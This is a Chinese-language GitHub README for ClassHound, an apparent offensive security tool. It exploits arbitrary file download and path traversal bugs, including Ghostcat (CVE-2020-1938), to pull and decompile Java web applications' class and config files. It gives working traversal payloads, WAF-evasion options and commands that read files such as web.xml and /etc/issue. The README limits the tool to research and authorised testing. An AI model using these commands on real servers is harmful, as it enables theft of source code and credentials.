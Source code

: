 # ClassHound
**利用任意文件下载漏洞自动循环下载并反编译class文件获得网站源码**

![Version](https://img.shields.io/badge/version-2.0-green.svg) ![License](https://img.shields.io/badge/license-MIT-red.svg) [![Python Version](https://img.shields.io/badge/python-2.7&3.7-orange.svg)](https://www.python.org/)  



### 注意事项

```
1. 使用过程中的 bug 和优化建议欢迎提 issue
2. 程序运行请先安装 requirements.txt 中的 python 模块, 并配置好 java 环境变量
3. 程序仅作为安全研究和授权测试使用, 开发人员对因误用和滥用该程序造成的一切损害概不负责
```



### 下载安装

```bash
git clone --depth=1 --branch=master https://www.github.com/LandGrey/ClassHound.git
cd ClassHound/
sudo pip install requirements.txt
sudo chmod +x classhound.py
python classhound.py -h
```



### 使用效果

![GIF.gif](https://raw.githubusercontent.com/LandGrey/ClassHound/master/resource/GIF.gif)



### 使用方法

### 0x00: 指定目标链接

#### 参数：-u/--url

指定可 **正常下载文件** 的链接, 并默认使用 `#` 字符标记任意文件下载漏洞的文件位置

```html
例如可正常下载 1.png 文件的链接如下：http://127.0.0.1/download.jsp?path=images/1.png
任意文件下载漏洞载荷位置正好在 1.png，可以使用命令：
python classhound.py -u "http://127.0.0.1/download.jsp?path=images/#1.png#"

或者使用链接 http://127.0.0.1/download.jsp?path=../../../WEB-INF/web.xml 可正常下载文件时,
也可使用命令: 
python classhound.py -u "http://127.0.0.1/download.jsp?path=#../../../WEB-INF/web.xml#"
```



### *0x01:* 指定下载失败关键词

#### 参数：-k/--keyword

指定**下载失败时**页面会出现的关键字，可用来辅助程序判断是否下载成功

```html
如 -k "404 not found" ，不清楚或不固定时，可以不指定
```



### *0x02:* 指定POST请求数据

#### 参数：-p/--post

使用 POST 请求下载文件

```
python classhound.py -u "http://127.0.0.1/download.jsp" --post "path=images/#1.png#"
```



### *0x03:* 指定文件遍历字符

#### 参数：-tc/--travel-char  (推荐使用)

直接指定**文件遍历字符**，默认是 `../`

```
当

1. 已知文件遍历字符
2. 需要通过更改文件遍历字符绕过 WAF
3. 程序没有自动探测出来特殊的遍历字符时

推荐显示使用该选项，会减少不必要的探测请求，程序不容易出错
```



### *0x04:* 指定遍历字符数量

#### 参数：-cc/--char-count  (推荐使用)

直接指定下载 `WEB-INF/web.xml` 文件时的**遍历字符数量**



```
程序没有自动探测出来遍历字符数量时，可以单独指定

例如，可使用 http://127.0.0.1/download.jsp?path=../../../WEB-INF/web.xml 下载 WEB-INF/web.xml 文件时，此时的遍历字符数量为 3 个

可使用命令：
python classhound.py -u "http://127.0.0.1/download.jsp?path=images/#1.png#" -tc "../" -cc 3
```



### *0x05:* 指定父路径

#### 参数：-bp/--base-path

指定 `WEB-INF/web.xml` 的父路径



```
例如当因目录原因，直接跳目录用 ../../../WEB-INF/web.xml 并不能下载 WEB-INF/web.xml 文件，需要用 ../../../../../../../opt/tomcat/webapps/cms/WEB-INF/web.xml 才可以下载成功时：

可以用 
-bp opt/tomcat/webapps/cms/  (注意参数值前面无 /，后面有 /)
指定需要拼接的父路径，同时用 -tc ../ 指定文件遍历字符，用 -cc 7 指定需要 7 个遍历字符
```



### *0x06:* tomcat ajp 任意文件读取漏洞利用（CVE-2020-1938）

#### 参数：-vul ghostcat

指定使用该漏洞来下载 class 和配置文件



```
常与 --ajp-port 参数一起使用，指定目标的 ajp 服务监听端口号，默认 8009

完整示例：
python classhound.py -u "http://127.0.0.1:8080/" -vul ghostcat --ajp-port 8009
```



### 其他参数

```markdown
## -s
设置两次HTTP请求间的 sleep time，暂停N秒，防止请求过于频繁被 waf 拦截

## -f
如果想顺带下载些其他已知文件, 可将服务器文件的相对路径一行一个写入文件中, 然后用 -f 参数指定文件
相对路径的文件下载可能需要不一样数量的遍历字符, 可以同时启用 -a/--auto 参数，程序会尝试不同数量的遍历字符
例如创建文件 download.txt，内容如下:
/etc/issue
install/index.jsp
application.properties
ROOT/META-INF/MANIFEST.MF
WEB-INF/classes/me/landgrey/config/config.class

## -a
自动切换遍历字符数量，常和 -f 参数一起使用

## -dc
设置标记漏洞的分隔符，默认为 #

## -mc
设置自动探测时尝试的最大遍历字符数量, 默认 8

## -hh
设置请求时的额外 HTTP header

## -hp
设置 HTTP/HTTPS 代理

```



### 程序修改

极少数情况下，下载的文件可能会被二次处理，比如`在文件头部或尾部添加额外字符`、`文件被编码`等。

此时，可以修改程序中的 `save_file` 函数，在文件在保存到本地前，对文件做额外处理，还原成正常的 `xml` 或 `class` 文件。



### 依赖开源程序

Class 反编译工具 [https://github.com/leibnitz27/cfr](https://github.com/leibnitz27/cfr)
Ghostcat利用脚本 [https://github.com/00theway/Ghostcat-CNVD-2020-10487](https://github.com/00theway/Ghostcat-CNVD-2020-10487)
